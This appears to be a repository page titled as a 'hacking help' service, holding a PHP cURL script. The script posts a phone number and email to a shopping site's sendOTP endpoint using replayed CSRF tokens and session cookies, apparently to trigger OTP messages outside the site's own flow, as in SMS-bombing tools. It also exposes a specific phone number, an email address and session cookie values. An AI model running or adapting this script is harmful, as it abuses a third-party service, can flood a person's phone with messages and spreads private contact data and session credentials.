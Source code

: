 # Cyber-team-help-
Hacking help service providers 

<?php

// Initialize cURL session
$ch = curl_init();

// Set cURL options
curl_setopt($ch, CURLOPT_URL, "http://fabrilife.com/sendOTP");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, "phone=01576219310&email=webhosttcs%40gmail.com");

// Set HTTP headers
$headers = [
    "Host: fabrilife.com",
    "Connection: keep-alive",
    "Content-Length: 46",
    "Accept: */*",
    "X-Requested-With: XMLHttpRequest",
    "X-CSRF-TOKEN: uP5CBcHx3JdnqlEXFT5wPf87WT1zTThegYFsdZ19",
    "User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36",
    "Content-Type: application/x-www-form-urlencoded; charset=UTF-8",
    "Origin: http://fabrilife.com",
    "Referer: http://fabrilife.com/register",
    "Accept-Encoding: gzip, deflate",
    "Accept-Language: en-US,en;q=0.9",
    "Cookie: geolife=eyJpdiI6InQwXC9IQ3I5OTFlQVV3STNDRVA0UHd3PT0iLCJ2YWx1ZSI6Ik5JKzQwbjd0ZkJwVGNIaUtOYll0Rm01MllhVGdKa2xEWUx5aGx0dWdvVjk0NERGdlRXTWtLMkg2NHRuMERBcnNEREZmcE9rRjlSQ1ZNMVZcL0c0ckh2WjlNUzRnczlDMWJUXC9Td0pzUUQ5dXhaTjhNYjJuR3MxWlBZYkNSd25HblFFUlZoa1pOaHZpdVVMUHFhcW9sb3dLbldxcUlObHlJemdZSXB0aHBBQVFvPSIsIm1hYyI6IjNiYWEwOWM4MzZiMjE4NmYyNTUxMDFhNjgxZmM3YzQ2NjY4NzEzMGI3NzFkZjFiYTk3ZDk5NjhiMTRlNzJkMjYifQ%3D%3D; app_modal_times=1; XSRF-TOKEN=eyJpdiI6Im1QRjZCa3ptSUtmS3hHelZlZlZHaWc9PSIsInZhbHVlIjoidEtoSWJqd1FyaXhyelcyV1BDN05IQkpDNXJFQkZucFRrRHUxcmFCTWxKOEZPQUhwc2NtODlDSTE0Y3g4OTFvcCIsIm1hYyI6ImRhODQ0NTdkZTI2MGU5NzM3ZmU0NzZlNDIwNjZhOTU4Mzg0MmIwNTI2OTk2ZDQzNDM2ODM1MjAzZDAxNzRkODEifQ%3D%3D; fabrilife=eyJpdiI6IitGbnd5ck9LTGFDZkFreFwvRWMrT0hnPT0iLCJ2YWx1ZSI6IlU2bDJlaDY0S0ZPNEI2clBaR2VQYmZcL2I0cnd0UVBtV25nWWVDd0JMSGduY2toaUt1OGdtMUpESHBZdXVUMnBTMWwzUERLNnBLTjBWUjk0dzlCVUxGQWhEWDg5Y3h4Um5XeGJicXlGTDJYQjJweWJTRHlNVEhUaXptbU96OEZjWSIsIm1hYyI6IjE0MDMzYmVlYjVhZWU3MDQzMmViNzdmZmMwZjViMDE3Zjk0ZjBjZWNlY2E3ZWU4OTkyMTlmZWVkZWM4NTExOGQifQ%3D%3D"
];

// Add headers to the request
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);

// Execute the cURL request and capture the response
$response = curl_exec($ch);

// Check for errors
if (curl_errno($ch)) {
    echo "Error: " . curl_error($ch);
} else {
    // Process the response (optional)
    echo $response;
}

// Close cURL session
curl_close($ch);
?>
